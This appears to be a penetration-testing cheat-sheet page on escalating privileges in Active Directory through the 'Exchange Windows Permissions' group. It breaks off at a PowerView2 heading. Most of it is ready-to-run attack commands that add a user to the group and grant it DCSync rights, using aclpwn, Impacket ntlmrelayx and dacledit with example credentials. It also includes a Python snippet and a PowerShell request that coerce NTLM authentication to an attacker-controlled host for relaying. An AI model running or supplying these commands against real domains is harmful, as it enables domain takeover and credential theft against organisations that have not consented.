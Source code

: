 


## Exchange Windows Permissions

Privilege escalation with ACLs in AD by example of the `Exchange Windows Permissions` domain group.

Add user to the `Exchange Windows Permissions` group:

```
PS > Add-ADGroupMember -Identity "Exchange Windows Permissions" -Members snovvcrash
```



### Add DCSync Rights

Using **aclpwn.py**:

* [https://github.com/fox-it/aclpwn.py](https://github.com/fox-it/aclpwn.py)
* [https://www.slideshare.net/DirkjanMollema/aclpwn-active-directory-acl-exploitation-with-bloodhound](https://www.slideshare.net/DirkjanMollema/aclpwn-active-directory-acl-exploitation-with-bloodhound)
* [https://www.puckiestyle.nl/aclpwn-py/](https://www.puckiestyle.nl/aclpwn-py/)

```
$ aclpwn -f snovvcrash -ft user -t megacorp.local -tt domain -d megacorp.local -du neo4j -dp neo4j --server 127.0.0.1 -u snovvcrash -p 'Passw0rd!' -sp 'Passw0rd!'
```

Using Impacket [**ntlmrelayx.py**](https://github.com/fortra/impacket/blob/50c76958706577a5005bec2ee1fda9e9fa669a65/impacket/examples/ntlmrelayx/attacks/ldapattack.py#L293):

```
PS > IWR http://10.10.13.37 -UseDefaultCredentials
$ ntlmrelayx.py -t ldap://DC01.megacorp.local --escalate-user snovvcrash --no-smb-server --no-wcf-server --no-raw-server --no-dump --no-da --no-acl --no-validate-privs
```

Coerce auth [using Python](https://stackoverflow.com/a/35577331):

```python
import win32com.client
URL = 'http://10.10.13.37/a'    
COM_OBJ = win32com.client.Dispatch('WinHTTP.WinHTTPRequest.5.1')
COM_OBJ.SetAutoLogonPolicy(0)
COM_OBJ.Open('GET', URL, False)
COM_OBJ.Send()
print(COM_OBJ.ResponseText)
```

Using Impacket **dacledit.py**:

```
$ dacledit.py megacorp.local/snovvcrash:'Passw0rd!' -action write -rights DCSync -principal snovvcrash -target-dn 'DC=megacorp,DC=local' -dc-ip 192.168.1.11
```

Using **PowerView2**:
